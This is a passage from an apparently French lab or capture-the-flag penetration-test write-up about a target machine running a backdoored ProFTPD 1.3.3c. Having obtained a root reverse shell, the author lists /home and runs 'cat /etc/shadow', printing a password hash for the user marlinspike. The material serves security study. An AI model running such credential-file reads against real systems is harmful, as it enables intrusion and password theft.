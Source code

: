 **Nous avons maintenant un shell sur la machine cible.**

## Étape 3: Atteinte des objectifs 1,2 et 3

### 3.1. Atteinte de l'objectif 1
*Rappel: L'attaquant peut-il accéder aux fichiers du système d'exploitation ?*

> Grâce à notre connexion en reverse, nous avons un shell sur la machine cible. Nous allons donc pouvoir utiliser les commandes Linux pour atteindre notre objectif.
>
> Comme nous sommes root, nous pouvons voir n’importe quelle fichier du système comme les fichiers des autres utilisateurs.

```bash
ls /home
marlinspike
# On peut voir que le dossier marlinspike existe

ls /home/marlinspike
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
backdoored_proftpd-1.3.3c
Desktop
Documents
Downloads
examples.desktop
latest.tar.gz
Music
Pictures
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
Public
Templates
Videos
wordpress
# La commande liste bien les fichiers

# nous pouvons également utiliser la commande cat pour lire le contenu des fichiers comme le fichier /etc/shadow qui nécessite des droits root pour être lu.
cat /etc/shadow
root:!:17484:0:99999:7:::
[...]
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::
mysql:!:17486:0:99999:7:::
sshd:*:17486:0:99999:7:::

# La commande affiche bien le contenu du fichier
```

***Ce qui signifie que nous pouvons accéder aux fichiers du système d'exploitation.***
